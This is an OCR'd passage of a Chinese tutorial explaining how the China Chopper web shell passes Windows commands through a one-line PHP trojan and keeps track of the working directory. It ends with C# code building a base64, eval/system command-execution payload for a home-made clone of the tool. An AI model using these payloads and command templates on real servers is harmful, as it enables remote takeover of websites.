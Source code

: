 /c 参数，执行完命令后关闭命令窗口
&amp; 在一条语句中执行多个命令
/d 直接进入指定目录
cd 不带参数和选项，输出当前物理路径
这句命令解释为：打开cmd，执行cd入后面的目录，calc弹出计算器，echo出标之符[s]，打印出当前目录，echo出标志符[E]

为什么要echo出标识符[S][E]，有什么用呢？
很多情况下一句话木马是嵌入到某些页面中的，也就是页面输出内容除了命令执行结果还有网页中的其他内容，这就需要在Request爬取页面后用正则匹配或其他方式找到我们想要的命令执行结果。这里的[S][E]只是要匹配出&amp;cd命令的执行结果，前面还有echo("|>-")echo("|&lt;-"),是为了匹配出我们想要的所有结果。

两个标识符[S][E]中间为什么要打印出当前目录？
这就要从程序实现上解释了，当我们不考虑路径时，我们可以使用system()执行任何想要的命令。但由于PHP的特性，在页面执行完毕后对应的程序生命周期也就结束了，变量会被重置，举个栗子：

```php
<?php
$i=1;
$i++;
echo $i;
?>
```

当我们第一次打开页面时，代码从上到下执行，页面输出2，该页面的程序生命周期结束。当我们刷新页面时，程序重新进入生命周期，依然是从上到下执行，输出2。
当我们执行``cd ..``这种更改路径的命令时，网页执行命令，进入上级路径C:\phpStudy\PHPTutorial。``cd ..``是根据相对路径执行的，也就是相对于网页文件的目录。但是，当我们下次再执行cd ..命令时，由于PHP的特性，依然是从网页文件所在目录执行 ``cd ..`` 。
所以我们要保存下来cd ..的执行结果，也就是&amp;cd打印出来然后保存下来，然后配合命令前半部分的 ``cmd /c &amp;cd /d "C:\phpStudy\PHPTutorial\WWW\" ``,把其中的路径当作一个参数，下次执行时只需要将打印保存下来的路径作为参数填到命令中，就像这样``cmd /c &amp;cd /d "C:\phpStudy\PHPTutorial\" ``完解决了路径问题。
（菜刀作者写的PHP代码和Shell是真的骚）。

---

# 实现简单的菜刀

中国菜刀的工作原理大致可分为三个步骤：

1. 构造POST请求
2. 发送POST请求并爬取页面信息
3. 处理信息（包括获取命令执行结果，以及更新路径）

首先看一下构造POST请求的轮子长什么样，先上代码：
和python中的Requests包类似，也是用字典构造请求参数。

![](./11.png)

然后看一下发送POST请求并爬取页面的轮子：

![](./12.png)

最后处理信息就需要自己发明轮子了：
我的PHP代码只有一句话很简单（骚不过，骚不过）

```php
string phpCode = string.Format("echo ' [h2o]'; @eval($_POST[z0]); &z0=$r=base64_decode($_POST[z1]); @system($r,$ret); 
if($ret!=0) echo $ret;echo '[h2o] '; &z1={0}", cmd);  //php代码
```
